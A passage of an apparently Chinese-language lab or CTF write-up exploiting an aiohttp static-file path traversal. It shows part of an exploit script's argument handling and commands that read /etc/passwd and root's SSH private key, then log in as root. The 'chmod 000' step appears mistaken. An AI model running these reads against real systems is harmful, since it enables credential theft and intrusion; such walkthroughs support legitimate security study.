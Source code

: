 ```
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent(''' Usage:            exploit.py -u http://127.0.0.1 -f /etc/passwd -d /static        ''')
    )
 
    parser.add_argument('-u', '--url', help="Aiohttp site url")
    parser.add_argument('-f', '--file', help="File to read")
    parser.add_argument('-d', '--directory', help="Directory with static files. Default: /static", default="/static")
 
    args = parser.parse_args()
    if args.url and args.file and args.directory:
        exploit(args.url, args.file, args.directory)
        print("Exploit complete")
    else:
        print("Error: One of the parameters is missing")

```  
  
通过curl可以看到源码，并且文件的静态目录在/assets下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwns1Tn23RpicIp2nMNkrvANSBcdfbjqemGLNbvwCJ4I3ibg3V29ubof9Q/640?wx_fmt=png&from=appmsg "")  
  
image-20241125142156137  
  
查看使用方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwfX7V8yPOI8pX4cGmAeYPibxlqBkQftDicEdXsnoPbRmPbiaLPiaVUKWATg/640?wx_fmt=png&from=appmsg "")  
  
image-20241125142653846  
  
执行读取/etc/passwd测试  
```
python3 exp.py -u http://127.0.0.1:8080 -f /etc/passwd -d /assets

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwzRPnPLCtibhX8OLC0d0mnibCrO8NddjK1cfqgia0ffCSYz6VNRK9WKsYg/640?wx_fmt=png&from=appmsg "")  
  
image-20241125143425366  
  
读取 ssh 密匙，指定刚刚的静态目录  
```
python3 exp.py -u http://127.0.0.1:8080 -f /root/.ssh/id_rsa -d /assets

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwGk8BoQ5CCromibO8ZryLb6eyfaXyX8wZibbxoVwtGZTzFmd5MVuEHZmg/640?wx_fmt=png&from=appmsg "")  
  
image-20241125145106834  
```
chmod 000 key
ssh root@10.10.11.38 -i key

```  
  